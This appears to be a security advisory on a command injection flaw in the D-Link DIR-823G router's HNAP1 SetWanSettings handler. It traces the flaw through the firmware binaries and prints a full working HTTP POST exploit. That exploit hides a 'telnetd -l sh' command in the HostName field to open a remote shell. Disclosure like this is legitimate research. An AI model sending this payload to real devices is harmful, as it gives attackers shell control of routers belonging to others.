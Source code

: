 # D-Link Vulnerability

Vendor:D-Link

Product:DIR_823G

Version:1.0.2B05

Type:Command Execution

Author:Jiaqian Peng

Institution:pengjiaqian@iie.ac.cn



## Vulnerability description

We found an Command Injection vulnerability  in D-Link Technology router with firmware which was released recently. A command Injection vulnerability allows attackers to execute arbitrary OS commands via a crafted /HNAP1 POST request.

**Remote Command Execution**

In `goahead` binary:

In `SetWanSettings` function, `HostName` is directly passed by the attacker. After that, call the function `apmib_set` to store this input.

<div  align="center"><img src="./images/1.png" style="zoom:80%;" /></div>

<div  align="center"><img src="./images/2.png" style="zoom:80%;" /></div>

In `sysconf` binary:

In `sub_419490` function, the initial input will be extracted. Eventually, the initial input will cause command injection.

<div  align="center"><img src="./images/3.png" style="zoom:80%;" /></div>



## PoC

We set `HostName`=**;telnetd${IFS}-l${IFS}sh;**, and the router will excute it,such as:

```http
POST /HNAP1/ HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: text/xml; charset=utf-8
SOAPAction: "http://purenetworks.com/HNAP1/SetWanSettings"
HNAP_AUTH: AEBA125D58469DE56DBA91DD384F1828 1728992957
X-Requested-With: XMLHttpRequest
Content-Length: 1047
Origin: http://192.168.0.1
Connection: close
Referer: http://192.168.0.1/Network.html
Cookie: uid=9TvTXXrCEc; PrivateKey=82F0BA34D9C35A45642D18D11A25DD32; timeout=10

<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"><soap:Body><SetWanSettings xmlns="http://purenetworks.com/HNAP1/"><Type>DHCP</Type><PppoeType></PppoeType><Username></Username><Password></Password><MaxIdleTime>0</MaxIdleTime><MTU>1500</MTU><HostName>;telnetd${IFS}-l${IFS}sh;</HostName><ServiceName></ServiceName><AutoReconnect>false</AutoReconnect><IPAddress></IPAddress><SubnetMask></SubnetMask><Gateway></Gateway><DnsManual>false</DnsManual><MacCloneEnable>false</MacCloneEnable><CloneMacAddress></CloneMacAddress><MacCloneType></MacCloneType><WanSpeed>Auto</WanSpeed><WanDuplex>Auto</WanDuplex><ConfigDNS><Primary></Primary><Secondary></Secondary></ConfigDNS><MacAddress></MacAddress><VPNServerIPAddress></VPNServerIPAddress><VPNLocalIPAddress></VPNLocalIPAddress><VPNLocalSubnetMask></VPNLocalSubnetMask><VPNLocalGateway></VPNLocalGateway></SetWanSettings></soap:Body></soap:Envelope>
```

<div  align="center"><img src="./images/4.png" style="zoom:80%;" /></div>



## Result

Get a shell!

<div  align="center"><img src="./images/5.png" style="zoom:100%;" /></div>
